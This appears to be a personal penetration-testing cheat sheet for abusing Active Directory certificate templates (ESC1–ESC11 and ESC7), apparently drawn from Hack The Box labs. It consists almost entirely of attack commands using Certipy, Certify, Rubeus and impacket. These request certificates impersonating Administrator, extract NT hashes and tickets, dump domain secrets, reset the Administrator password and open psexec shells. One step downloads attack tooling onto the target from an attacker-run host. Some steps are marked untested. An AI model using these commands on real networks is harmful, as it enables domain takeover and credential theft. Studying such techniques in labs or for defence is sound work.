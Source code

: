 Using Certipy
---
#certipy #Certificate-Abuse

First sync time to DC (in case of time skew):
```shell
sudo rdate -n $DCNAME
```
OR
```shell
sudo ntpdate -s $DCNAME
```
and then restore
```shell
sudo ntpdate pool.ntp.org
```

SCAN AND EXPLOIT ESC 1 - 11 vulnerable certificate templates with certipy
---
#certipy #vulnerable-template #ad #active-directory #ad-template 

find vulnerable cert templates:
```shell
certipy find -u $USER -p $PASS -dc-ip $TARGET_IP -vulnerable -stdout -text
```
request enrollment of user in template:
```shell
certipy req -u $USER -p $PASS -ca $AD_CA_NAME -target $AD_DNS_NAME -template $TEMPLATE_FOUND_NAME -upn Administrator@$DOMAIN -debug
```
exploit to get admin hash:
```shell
certipy auth -pfx administrator.pfx -dc-ip $TARGET_IP
```

Exploiting misconfigured Certificate template with Rubeus and Certify:
---
#ad #ad-template #misconfiguration #rubeus #certify 

Download certify.exe and Rubeus:

```powershell
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Certify.exe -O Certify.exe
```

```powershell
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe -O Rubeus.exe
```

Download on target:

```powershell
$URL="http://$LOCAL_IP/Certify.exe"
$PATH="c:\users\$USER\Desktop\certify.exe"
(New-Object System.Net.WebClient).DownloadFile($URL, $PATH)
```
and run the search
```powershell
./certify.exe find /vulnerable
./certify.exe request /ca:dc.$DOMAIN\$DOMAIN-DC-CA /template:UserAuthentication /altname:Administrator
```

After that download the cert using evil-winrm:

```powershell
download cert.pem
```

```shell
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Upload cert.pfx back to target and perform TGT request:

```powershell
upload cert.pfx
./Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /ptt
```

or  get hash for evil-winrm etc.:

```powershell
./Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /show /nowrap
```

```sh
psexec.py -hashes $HASH:$HASH $USER@$TARGET_IIP
```

then

```powershell
./Rubeus.exe changepw /ticket:doIG2DCCBtSg…<snip>…== /new:Password123!! /targetuser:$DOMAIN\Administrator
```

OR use:

```link
https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py
```
instead of rubeus.exe for asktgt function

OR get hash with

```
getnthash.py (untested)
```

then copy ticket.kirbi to LOCAL machine and :

```shell
base64 -di ticket.kirbi >> ticket.bin
impacket-ticketConverter ticket.bin ticket.ccache
export KRB5CCNAME=/home/kali/$TARGET_NAME-box/files/ticket.ccache
```

```sh
pip install minikerberos --user
minikerberos-kirbi2ccache ticket.kirbi ticket.ccache
```

```sh
#fix time skew first!
impacket-secretsdump -k -no-pass g0.$DOMAIN
impacket-psexec administrator@flight.htb -hashes $HASHES
```

Check with:

```shell
echo $KRB5CCNAME
klist -f
sudo nano /etc/krb5.conf
```

```config
$DOMAIN = {
  kdc = dc.$DOMAIN
  admin_server = dc.$DOMAIN
}
```

then sync time with DC domain controller server

```shell
sudo ntpdate $DOMAIN_CONTROLLER
```

Finally login to server using kerberos auth:

```shell
impacket-psexec $TARGET_DOMAIN/Administrator@$DOMAIN_CONTROLLER -target-ip $TARGET_IP -dc-ip $TARGET_IP -no-pass -k
```

Powershell cmds:
---
untested, should be ok substitute for ADCSTemplate module:
```powershell
$Properties = @{}
$Properties.Add('mspki-certificate-name-flag',1)
$Properties.Add('pkiextendedkeyusage',@('1.3.6.1.4.1.311.20.2.2','1.3.6.1.5.5.7.3.2'))
$Properties.Add('msPKI-Certificate-Application-Policy',@('1.3.6.1.4.1.311.20.2.2','1.3.6.1.5.5.7.3.2'))
$Properties.Add('flags',0)
$Properties.Add('mspki-enrollment-flag',0)
$Properties.Add('mspki-private-key-flag',256) # 0x100
$Properties.'mspki-private-key-flag' += 16 # 0x10
$Properties.Add('pkidefaultkeyspec',1)
$Properties.Add('pKIDefaultCSPs','1,Microsoft RSA SChannel Cryptographic Provider')
Import-Module ActiveDirectory
Set-AdObject "CN=TemplateName,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=local" -Replace $Properties
```
Create a com object and set the subject alternative name
```powershell
$SAN = New-Object -ComObject X509Enrollment.CX509ExtensionAlternativeNames
$IANs = New-Object -ComObject X509Enrollment.CAlternativeNames
$IAN = New-Object -ComObject X509Enrollment.CAlternativeName
$IAN.InitializeFromString(0xB,"Administrator@$AD_DOMAIN") # UPN to use
$IANs.Add($IAN)
$SAN.InitializeEncode($IANs)
```
Create a request object to request the certificate based on a template
```powershell
$Request = New-Object -ComObject X509Enrollment.CX509Enrollment
$Request.InitializeFromTemplateName(0x1,"TemplateName") # Template to use
$Request.Request.X509Extensions.Add($SAN)
$Request.CertificateFriendlyName = "TemplateName" # Template to use
```
Enroll the certificate:
```powershell
$Request.Enroll()
```

Using CertReq(untested):
---
request.inf

```inf
[NewRequest]
Subject = "CN=ComputerName,CN=Computers,DC=domain,DC=local"
Exportable = TRUE
KeyLength = 2048
KeySpec = 1
KeyUsage = 0x60
MachineKeySet = FALSE
ProviderName = "Microsoft RSA SChannel Cryptographic Provider"
[RequestAttributes]
CertificateTemplate=Web
SAN="upn=Administrator@$ADDOMAIN"
[Extensions]
2.5.29.17 = "{text}"
_continue_ = "upn=Administrator@$ADDOMAIN"
[EnhancedKeyUsageExtension]
OID = 1.3.6.1.4.1.311.20.2.2
OID = 1.3.6.1.5.5.7.3.2
```

then

```powershell
certreq -q -new request.inf request.pem
certreq -q -submit request.pem cert.pem
certreq -q -accept cert.pem
```


ESC7
---
#esc7

```sh
certipy find -u $USER -p PASSWORD -dc-ip $TARGET_IP -vulnerable -stdout -text

#ESC7
certipy ca -ca $AD_CA -add-officer $USER -username $USER@$AD_DOMAIN -password $PASSWORD

certipy ca -ca $AD_CA -enable-template SubCA -username $USER@$AD_DOMAIN -password $PASSWORD

certipy req -username $USER@$AD_DOMAIN -password $PASSWORD -ca $AD_CA -target manager.htb -template SubCA -upn Administrator@$AD_DOMAIN -debug

certipy ca -ca $AD_CA -issue-request XX -username $USER@$AD_DOMAIN -password $PASSWORD

certipy req -username $USER@$AD_DOMAIN -password $PASSWORD -ca $AD_CA -target $AD_DOMAIN -retrieve XX

#fix clock skew then:
sudo ntpdate -s $AD_DOMAIN
certipy auth -pfx administrator.pfx -dc-ip $TARGET_IP
```